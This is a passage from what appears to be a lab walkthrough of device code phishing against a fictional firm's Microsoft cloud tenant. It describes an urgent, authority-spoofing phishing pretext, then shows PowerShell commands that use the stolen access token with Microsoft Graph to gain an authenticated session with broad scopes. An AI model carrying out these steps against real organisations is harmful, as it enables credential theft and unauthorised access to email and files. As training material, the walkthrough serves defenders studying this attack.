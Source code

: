 ```
$response.access_token
```

Now we need to send our phishing email. We can send any phishing pretext. The pretext below makes it seem that the device code login request comes from an authoritative and trusted source (International Asset Management IT) and it also conveys a sense of urgency and threat, compelling the user to take immediate action to avoid losing access.

![](leverage-device-code-phishing-for-initial-access-4.png)

After few minutes, we see access token

![](leverage-device-code-phishing-for-initial-access-5.png)

We can copy the token to https://jwt.io. We see that the display name name of the phished user is `International Asset Management (Mega Big Tech MSSP Support)`. We got a foodhold in the cloud environment, but we have phished the MSSP (Managed Security Service Provider) used by International Asset Management.

![](leverage-device-code-phishing-for-initial-access-6.png)

Now use access token to get authenticated session using the Microsoft Graph PowerShell SDK. 
```
└─PS> Connect-MgGraph -AccessToken ($access_token | ConvertTo-SecureString -AsPlainText -Force)                                                                                                                                             
Welcome to Microsoft Graph!

Connected via userprovidedaccesstoken access using d3590ed6-52b3-4102-aeff-aad2292ab01c
Readme: https://aka.ms/graph/sdk/powershell
SDK Docs: https://aka.ms/graph/sdk/powershell/docs
API Docs: https://aka.ms/graph/docs

NOTE: You can use the -NoWelcome parameter to suppress this message.
```

Let's confirm our execution context.
```
└─PS> Get-MgContext

ClientId               : d3590ed6-52b3-4102-aeff-aad2292ab01c
TenantId               : 2590ccef-687d-493b-ae8d-441cbab63a72
Scopes                 : {AuditLog.Create, Calendar.ReadWrite, Calendars.Read.Shared, Calendars.ReadWrite…}
AuthType               : UserProvidedAccessToken
TokenCredentialType    : UserProvidedAccessToken
CertificateThumbprint  : 
CertificateSubjectName : 
SendCertificateChain   : False
Account                : support@international-am.com
AppName                : Microsoft Office
ContextScope           : Process
Certificate            : 
PSHostVersion          : 7.5.1
ManagedIdentityId      : 
ClientSecret           : 
Environment            : Global

```
